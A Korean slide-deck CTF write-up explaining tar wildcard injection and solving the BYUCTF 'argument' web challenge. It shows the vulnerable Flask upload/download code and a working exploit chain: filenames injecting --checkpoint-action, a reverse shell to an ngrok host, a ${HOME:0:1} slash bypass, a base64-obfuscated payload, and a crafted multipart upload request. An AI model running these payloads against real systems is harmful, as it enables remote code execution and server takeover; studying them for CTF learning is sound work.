# **CTF Follow up**

##### Tar Wildcard Injection

by: _Foo1_

---

```bash
┌──(root💀DESKTOP-7B0UB35)-[~/workspace]
└─# whoami
- KnockOn 웹 문제 및 자료 제작

- Kknock 14기 STAFF
- 웹 심화 커리큘럼 맨토 && 서버관리

- 2023 HspaceCTF Final
- LineCTF Quals - 37th (team K.knock)
- HacktheonCTF Quals 45th (team 팀장이 바보)

- IoT, Web3

```

---

# Tar Wildcard Injection

---

# Tar

###### 여러 파일을 하나의 아카이브 파일로 묶는 유틸리티 툴

###### 압축 관련 유틸리티와 연계됨

---

#### tar -cf out.tar \*

###### -c : 새로운 아카이브 생성

###### -f : 아카이브 이름 지정



---

### Wildcard

###### 패턴과 일치하는 파일을 찾는 데 사용되는 특수 문자

###### \* ? [] {} 등등 다양한 패턴이 지원함

---

# \*

---

###### --checkpoint=1

###### --checkpoint-action= exec="echo checkpoint"



---

###### 긴 옵션과 파일이름을 혼동함!!



---

# BYUCTF - argument

---




---

```python
# ensure each user has a uuid session
@app.before_request
def check_uuid():
    uuid_cookie = request.cookies.get('uuid', None)

    # ensure user has uuid_cookie
    if uuid_cookie is None:
        response = make_response(redirect('/'))
        response.set_cookie('uuid', str(uuid.uuid4()))
        return response

    # ensure uuid_cookie is valid UUID
    try:
        uuid.UUID(uuid_cookie)
    except ValueError:
        response = make_response(redirect('/'))
        response.set_cookie('uuid', str(uuid.uuid4()))
        return response

    g.uuid = uuid_cookie

    if not os.path.exists(f'uploads/{g.uuid}'):
        os.mkdir(f'uploads/{g.uuid}')
```

---

```python
# main dashboard
@app.route('/', methods=['GET'])
def main():
    return render_template('index.html', files=os.listdir(f'uploads/{g.uuid}'))
```

```python
# upload file
@app.route('/api/upload', methods=['POST'])
def upload():
    file = request.files.get('file', None)
    if file is None:
        return 'No file provided', 400

    # check for path traversal
    if '..' in file.filename or '/' in file.filename:
        return 'Invalid file name', 400

    # check file size
    if len(file.read()) > 1000:
        return 'File too large', 400

    file.save(f'uploads/{g.uuid}/{file.filename}')
    return 'Success! <script>setTimeout(function()'
    +' {window.location="/"}, 3000)</script>', 200
```

---

```python
# download file
@app.route('/api/download', methods=['GET'])
def download():
    @after_this_request
    def remove_file(response):
        os.system(f"rm -rf uploads/{g.uuid}/out.tar")
        return response

    # make a tar of all files
    os.system(f"cd uploads/{g.uuid}/ && tar -cf out.tar *")

    # send tar to user
    return send_file(f"uploads/{g.uuid}/out.tar", as_attachment=True,
     download_name='download.tar', mimetype='application/octet-stream')
```

---

# Web Shell

---

##### 공격 서버



##### 공격 당하는 서버



---

```sh
echo "bash -c 'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/16142 0>&1'" >> shell.sh
echo "" > "--checkpoint-action=exec=bash shell.sh"
echo "" > --checkpoint=1

# Trigger!!
```

---




---

# Why?

---



---

```python
# upload file
@app.route('/api/upload', methods=['POST'])
def upload():
    file = request.files.get('file', None)
    if file is None:
        return 'No file provided', 400

    # check for path traversal
    if '..' in file.filename or '/' in file.filename:
        return 'Invalid file name', 400

    # check file size
    if len(file.read()) > 1000:
        return 'File too large', 400

    # file.seek(0) 파일포인터 시작 지점으로 옮기기

    file.save(f'uploads/{g.uuid}/{file.filename}')
    return 'Success! <script>setTimeout(function()'
    +' {window.location="/"}, 3000)</script>', 200
```

---

### 내용이 있는 파일은 사용 불가능

###### 한번의 실행으로 파일을 동적으로 구성해 줘야 함

---

```sh
--checkpoint-action=exec=bash -c 'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/16142 0>&1'
```

```python
# check for path traversal
    if '..' in file.filename or '/' in file.filename:
        return 'Invalid file name', 400
```

---



```bash
ctf@54f0c545b7c4:~/uploads/4095fc3d-808a-42d8-a9e4-c49d92c0aec6
$ tar -cf * --checkpoint=1 --checkpoint-action=exec="cat ${HOME:0:1}flag*"
test{test}
```

```sh
--checkpoint-action=exec=bash -c 'sh -i >&
${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}
0.tcp.jp.ngrok.io${HOME:0:1}16142 0>&1'
```

---



---



###### tar가 실행되는 쉘 : `/bin/bash`

###### `cat \${HOME:0:1}flag`가 실행되는 쉘 : `/bin/sh`

---

### 목표 : 공격 서버와 TCP 연결

1. `/bin/sh`에서 `/`, '..'제외한 명령어 모두 사용 가능
2. 비어있는 파일만 업로드 가능

---

##### 파일 입출력, 인코딩, 파이프라인, 리다이렉트 ...

---

`echo "YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuanAubmdyb2suaW8vMTYxNDIgMD4mMSc="| 
base64 --decode > 
shell.sh ; 
bash shell.sh`

---

```sh
echo "YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuanAubmdyb2suaW8vMTYxNDIgMD4mMSc=" | base64 --decode

bash -c 'sh -i >& /dev/tcp/0.tcp.jp.ngrok.io/16142 0>&1'
```




---

```
POST /api/upload HTTP/1.1
Host: localhost:40001
Content-Length: 203

...
중간 헤더들 생략
...

------WebKitFormBoundarybsek0dcA7jBFy7df
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=echo
'YmFzaCAtYyAnc2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuanAubmdyb2suaW8vMTYxNDIgMD4mMSc='
| base64 --decode > shell.sh;bash shell.sh"
Content-Type: application/octet-stream


------WebKitFormBoundarybsek0dcA7jBFy7df--
```

---

## 

---



---

# Thx :)
